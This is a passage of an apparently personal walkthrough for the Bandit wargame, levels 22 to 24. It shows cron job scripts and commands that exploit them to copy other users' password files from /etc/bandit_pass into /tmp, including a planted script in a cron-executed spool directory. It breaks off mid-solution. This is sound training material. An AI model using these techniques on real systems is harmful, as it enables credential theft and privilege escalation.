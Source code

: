 <b>22 --> 23</b>
<p>Another cron job. This time we weill have to modify the script (whoami parameter) to see where we have to look for the password.</p>
{% highlight bash %}
andit22@melissa:~$ cd /etc/cron.d
bandit22@melissa:/etc/cron.d$ ls
boobiesbot-check  eloi1                 semtex0-64   semtex6   vulnbot0-check
cronjob_bandit22  hintbot-check         semtex0-ppc  semtex8   vulnbot1-check
cronjob_bandit23  manpage3_resetpw_job  semtex10     semtex9
cronjob_bandit24  php5                  semtex12     vortex0
eloi0             semtex0-32            semtex5      vortex20
bandit22@melissa:/etc/cron.d$ cat cronjob_bandit23
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh &> /dev/null
bandit22@melissa:/etc/cron.d$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget

#Run the script:
bandit22@melissa:/etc/cron.d$ echo I am user bandit23 | md5sum | cut -d ' ' -f 1
********************************

#Check contents of that file in /tmp:
bandit22@melissa:/etc/cron.d$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
********************************
{% endhighlight %}

<b>23 --> 24</b>
<p>Fistly let’s edit the script by adding following lines of code</p>
{% highlight bash %}
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/w3ndige
{% endhighlight %}
<p>to the cronjob_bandit24.sh</p>
{% highlight bash %}
bandit23@melinda:~$ cd /etc/cron.d
bandit23@melinda:/etc/cron.d$ ls
behemoth4_cleanup  cronjob_bandit24       melinda-stats          natas26_cleanup  semtex0-64   vortex0
cron-apt           cronjob_bandit24_root  natas-session-toucher  natas27_cleanup  semtex0-ppc  vortex20
cronjob_bandit22   leviathan5_cleanup     natas-stats            php5             semtex5
cronjob_bandit23   manpage3_resetpw_job   natas25_cleanup        semtex0-32       sysstat
bandit23@melinda:/etc/cron.d$ cat cronjob_bandit24
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 "./$i"
        rm -f "./$i"
    fi
done

